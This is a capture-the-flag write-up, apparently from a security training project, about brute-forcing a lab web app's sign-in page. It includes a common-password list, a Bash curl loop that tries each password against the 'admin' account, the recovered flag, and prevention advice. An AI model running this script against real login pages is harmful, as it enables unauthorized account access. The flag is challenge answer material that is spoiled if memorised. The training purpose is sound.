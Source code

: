 # Brute Force Sign-In Vulnerability

## Overview

A **Brute Force Vulnerability** was discovered on the sign-in page, allowing attackers to repeatedly attempt multiple password combinations to gain unauthorized access to an account. This issue demonstrates the absence effective rate limiting, account lockout mechanisms or even Two Factor Authentication.

## Methodology

1. **Password List Creation**

   - A list of commonly used passwords was sourced and filtered from [Wikipedia](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords), containing entries such as:
     - `123456`, `password`, `12345678`, `qwerty`, `abc123`, `shadow`, and more.

2. **Script Execution**

   - A Bash script was created to iterate through the password list and send HTTP POST requests to the sign-in page.

   - We ran the following script with multiple usernames such as `root`, `webmaster`, usernames found in the DB, and on the members page, to finally think about using `admin`.

   - Script:

     ```bash
     password=(1q2w3e4r, 1qaz2wsx, 123123, 12345, 123456, 1234567, 12345678, 123456789, 1234567890, 1234, 123qwe, abc123, admin, adobe123, access, ashley, baseball, bailey, batman, charlie, dragon, donald, flower, football, freedom, hello, hottie, iloveyou, jesus, letmein, login, lovely, master, michael, monkey, mustang, password, password1, photoshop, princess, qwerty, qwerty123, qwertyuiop, shadow, solo, sunshine, trustno1, zaq1zaq1)

     for i in ${password[@]}; do
         echo ${i}
         curl -X POST "http://192.168.122.121/index.php?page=signin&username=admin&password=${i}&Login=Login" | grep 'flag'
     done
     ```

3. **Exploitation**
   - The script was executed to test password combinations against the `admin` username.
   - The password `shadow` successfully authenticated the account, revealing the flag.

## Flag

- **Flag**: b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

---

## How to Prevent Identification And Authentication Failures Vulnerabilities

1. **Rate Limiting**

   - Limit the number of login attempts per user/IP address within a specified timeframe.

2. **Account Lockout Mechanisms**

   - Temporarily lock accounts after a certain number of failed login attempts.

3. **Strong Password Policies**

   - Enforce strong password creation rules, requiring a mix of uppercase, lowercase, numbers, and special characters.

4. **Two-Factor Authentication (2FA)**

   - Add an additional layer of security by requiring a second authentication factor.

5. **Captcha Integration**

   - Implement CAPTCHA to prevent automated login attempts.

6. **Monitoring and Alerts**

   - Monitor login attempts and generate alerts for suspicious activity (e.g., multiple failed attempts).

7. **Hash and Salt Passwords**
   - Store passwords securely using strong hashing algorithms and salts.
